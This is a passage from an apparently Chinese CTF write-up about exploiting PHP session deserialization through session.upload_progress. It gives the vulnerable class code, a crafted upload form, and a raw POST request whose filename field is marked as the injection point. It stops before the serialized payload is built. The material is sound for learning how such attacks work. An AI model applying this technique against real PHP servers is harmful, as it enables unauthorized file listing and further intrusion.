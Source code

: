 ```
    }
    function get_dir($path){
        print_r(scandir("/tmp".$path));
    }


    function execute() {
        if (in_array($this->method, array("get_dir"))) {
            call_user_func_array(array($this, $this->method), ($this->args));                                    //call_user_func_array函数第一个参数也是传函数名，而这个传数组就是array($this, $this->method)表示$this::method，第二个参数以数组的形式传入多个参数
        }
    }
}
?>
```
知识点：`ini_set('session.serialize_handler', 'php');`，这个显然与session设置有关，由phpinfo()页面知，`session.upload_progress.enabled`为On。当一个上传在处理中，同时POST一个与INI中设置的`session.upload_progress.name`同名变量时，当PHP检测到这种POST请求时，它会在`$_SESSION`中添加一组数据。所以可以通过`Session Upload Progress`来设置session。

因此我们构造表单
```
<html>
<head>
    <title>upload</title>
</head>
<body>
    <form action="http://120.55.43.255:13006/" method="POST" enctype="multipart/form-data">
        <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="1" />
        <input type="file" name="file" />
        <input type="submit" />
    </form>
</body>
</html>
```
**注意，这个弄出来的HTTP头少了一个Accept-Encoding，需要加上头部字段：Accept-Encoding: gzip, deflate**

然后得到http请求头为：
```
POST /class.php HTTP/1.1
Host: 120.55.43.255:13006
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------57052814523281
Content-Length: 714
Connection: close
Cookie: PHPSESSID=6o6k31opf8h9cmeb60mu2gaac1
Upgrade-Insecure-Requests: 1

-----------------------------57052814523281
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

123
-----------------------------57052814523281
Content-Disposition: form-data; name="file"; filename="123"     //这个filename就是我们要反序列化的地方
Content-Type: text/plain

wewetert

-----------------------------57052814523281--
```
其中第二个filename变量就是我们要填写序列化字符串的地方
这个序列化如何构造呢？